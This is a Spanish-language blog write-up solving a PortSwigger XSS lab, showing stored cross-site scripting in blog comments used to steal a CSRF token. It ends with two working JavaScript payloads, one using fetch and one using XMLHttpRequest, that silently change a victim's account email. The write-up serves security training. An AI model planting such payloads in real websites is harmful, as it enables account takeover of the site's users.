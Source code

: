 ```yaml
---
title: "Exploiting XSS to bypass CSRF defenses"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting XSS to bypass CSRF defenses
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `XSS almacenado` en la función de `comentarios del blog`. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `robar` un `token CSRF`, que luego podemos usar para `cambiar` la `dirección de correo electrónico` de alguien que vea los `comentarios` de la `publicación` del `blog`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las credenciales `wiener:peter`

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS/](https://justice-reaper.github.io/posts/XSS/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-24/image_1.png)

Si pulsamos sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/XSS-Lab-24/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/XSS-Lab-24/image_3.png)

Si `capturamos` la `petición` con `Burpsuite` vemos que se envía el `email` y el `token CSRF`

![](/assets/img/XSS-Lab-24/image_4.png)

Si `inspeccionamos` el `código fuente` de la web también podemos ver el `token CSRF`

![](/assets/img/XSS-Lab-24/image_5.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-24/image_6.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-24/image_7.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-24/image_8.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags HttpOnly y Secure`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-24/image_9.png)

Si vemos el `código fuente` observamos que al `publicar` un `comentario` también existe un `token CSRF`

![](/assets/img/XSS-Lab-24/image_10.png)

Para obtener el valor del `token CSRF` podemos hacerlo con `document.getElementsByName('csrf')[0].value`

![](/assets/img/XSS-Lab-24/image_11.png)

Aunque no podamos enviar información a nuestro servidor porque tiene las `flags HttpOnly y Secure` podemos usar el `XSS` para hacer que el `usuario víctima cambie su email o publique un mensaje con sus cookies`

```
<script>
    window.addEventListener('DOMContentLoaded', function() {
        var token = document.getElementsByName('csrf')[0].value;

        var data = new FormData();
        data.append('csrf', token);
        data.append('email', 'evil@hacker.net');

        fetch('/my-account/change-email', {
            method: 'POST',
            mode: 'no-cors',
            body: data
        });
    });
</script>
```

Otra `alternativa` sería usar `XMLHttpRequest`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get', '/my-account', true);
    req.send();

    function handleResponse() {
        var parser = new DOMParser();
        var doc = parser.parseFromString(this.responseText, 'text/html');
        var token = doc.querySelector('input[name="csrf"]').value;
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf=' + token + '&email=test@test.com');
    };
</script>
```
